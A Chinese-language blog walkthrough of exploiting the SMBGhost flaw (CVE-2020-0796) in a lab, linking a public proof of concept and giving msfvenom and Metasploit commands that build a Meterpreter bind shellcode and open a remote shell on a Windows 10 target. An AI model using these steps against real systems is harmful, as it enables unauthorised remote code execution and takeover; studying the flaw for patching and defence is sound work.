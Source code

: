 **目录**

[CVE-2020-0796](#t0 "CVE-2020-0796")

[漏洞描述](#t1 "漏洞描述")

[漏洞危害等级](#t2 "漏洞危害等级        ")        

[影响版本](#t3 "影响版本")

[漏洞复现](#t4 "漏洞复现")

* * *

CVE-2020-0796
-------------

### **漏洞描述**

       2020年3月10日，微软在其官方SRC发布了CVE-2020-0796的安全公告（ADV200005，MicrosoftGuidance for Disabling SMBv3 Compression）,公告表示在Windows SMBv3版本的客户端和服务端存在远程代码执行漏洞。同时指出该漏洞存在于MicroSoft Server Message Block 3.1.1协议处理特定请求包的功能中，攻击者利用该漏洞可在目标SMB Server或者Client中执行任意代码。

### 漏洞危害等级        

**高**

### 影响版本

*   Windows 10 Version 1903 for 32-bit Systems
*   Windows 10 Version 1903 for x64-based Systems
*   Windows 10 Version 1903 for ARM64-based Systems
*   Windows Server, Version 1903 (Server Core installation)
*   Windows 10 Version 1909 for 32-bit Systems
*   Windows 10 Version 1909 for x64-based Systems
*   Windows 10 Version 1909 for ARM64-based Systems
*   Windows Server, Version 1909 (Server Core installation)

### 漏洞复现

*   靶机：192.168.10.26(Win10 1903版本)
*   Kali攻击机：192.168.10.13

![](https://img-blog.csdnimg.cn/20200605144807467.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

POC地址：[https://github.com/chompie1337/SMBGhost\_RCE\_PoC](https://github.com/chompie1337/SMBGhost_RCE_PoC "https://github.com/chompie1337/SMBGhost_RCE_PoC")

先检测目标是否存在该漏洞

![](https://img-blog.csdnimg.cn/2020060514114614.png)

使用 msfvenom 生成 python 类型正向连接的 shellcode

```
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=8888 -b '\x00' -i 1 -f python
```


![](https://img-blog.csdnimg.cn/20200605143326720.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

将生成的 shellcode 替换POC中exploit.py里的USER\_PAYLOAD字段，注意要将buf替换为USER\_PAYLOAD

![](https://img-blog.csdnimg.cn/2020060512310549.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

MSF启动监听

```
use exploit/multi/handler      
set payload windows/x64/meterpreter/bind_tcp      
set lport 8888      
set rhost 192.168.10.26      
run
```


POC发起攻击，攻击成功

![](https://img-blog.csdnimg.cn/20200605143226790.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

注意：在用POC打的过程中，极易出现蓝屏或重启的风险，使用时应注意！

![](https://img-blog.csdnimg.cn/20200605145015438.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 实现本地提权

![](https://img-blog.csdnimg.cn/20200605141835725.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

漏洞检测和利用脚本：关注微信公众号：xie\_sec ，后台回复：0796  即可下载。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)